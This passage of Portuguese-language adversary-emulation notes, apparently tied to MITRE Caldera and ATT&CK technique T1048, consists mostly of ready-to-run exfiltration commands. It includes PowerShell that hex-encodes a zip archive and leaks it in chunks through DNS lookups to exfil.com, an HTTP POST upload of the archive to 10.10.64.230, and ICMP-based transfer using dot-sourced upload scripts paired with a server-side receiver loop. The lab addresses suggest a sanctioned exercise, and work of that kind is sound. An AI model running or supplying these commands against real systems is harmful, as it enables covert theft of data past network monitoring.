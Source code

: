       - Executar no cliente:
        ```powershell
        # LAN
        $filename = "$env:TMP\caldera\exfiltrate_caldera.zip";
        if (Test-Path $filename) { 
            $fileBytes = [System.IO.File]::ReadAllBytes($filename);
            $hexString = [System.BitConverter]::ToString($fileBytes) -replace '-';
            $blockSize = 30
            $x = 0;
            nslookup -retry=1 "START$((Get-Date).ToString('yyyyMMddHHmmss')).exfil.com" 10.10.64.230;
            for ($i = 0; $i -lt $hexString.Length; $i += $blockSize*2) {
                $hexBlock = $hexString.Substring($i, [Math]::Min($blockSize*2, $hexString.Length - $i));
                nslookup -retry=1 "$($x)L$($hexBlock).exfil.com" 10.10.64.230;
                $x += 1;
            }
            nslookup -retry=1 "END$((Get-Date).ToString('yyyyMMddHHmmss')).exfil.com" 10.10.64.230;
        }
        ```

  - Invoke-WebRequest [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    ```powershell
    # LAN
    Invoke-WebRequest -uri "http://10.10.64.230/file/upload?pwsh" -Method Post -Headers @{"X-Request-Id" = "$env:COMPUTERNAME"} -Infile $env:TMP\caldera\exfiltrate_caldera.zip
    ```

  - ICMP (`PING`) [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    - Executar no servidor: 
      ```bash
        # https://github.com/icyguider/ICMP-TransferTools
        bash> cd ~/Downloads/tools/ICMP-TransferTools && while true;do sudo ./ICMP-ReceiveFile.py 172.30.200.100 exfiltrate_caldera.zip;done
      ```

    - Executar no cliente: 
      ```powershell
      # LAN
      if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpUpload_curl.ps1)      { . .\$env:TMP\caldera\downloads\Invoke-IcmpUpload_curl.ps1;      Invoke-IcmpUpload 10.10.64.230 $env:TMP\caldera\exfiltrate_caldera.zip}
      if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpUpload_certutil.ps1)  { . .\$env:TMP\caldera\downloads\Invoke-IcmpUpload_certutil.ps1;  Invoke-IcmpUpload 10.10.64.230 $env:TMP\caldera\exfiltrate_caldera.zip}
      if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpUpload_bitsadmin.ps1) { . .\$env:TMP\caldera\downloads\Invoke-IcmpUpload_bitsadmin.ps1; Invoke-IcmpUpload 10.10.64.230 $env:TMP\caldera\exfiltrate_caldera.zip}
      if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpUpload_iwr.ps1)       { . .\$env:TMP\caldera\downloads\Invoke-IcmpUpload_iwr.ps1;       Invoke-IcmpUpload 10.10.64.230 $env:TMP\caldera\exfiltrate_caldera.zip}
      ```
    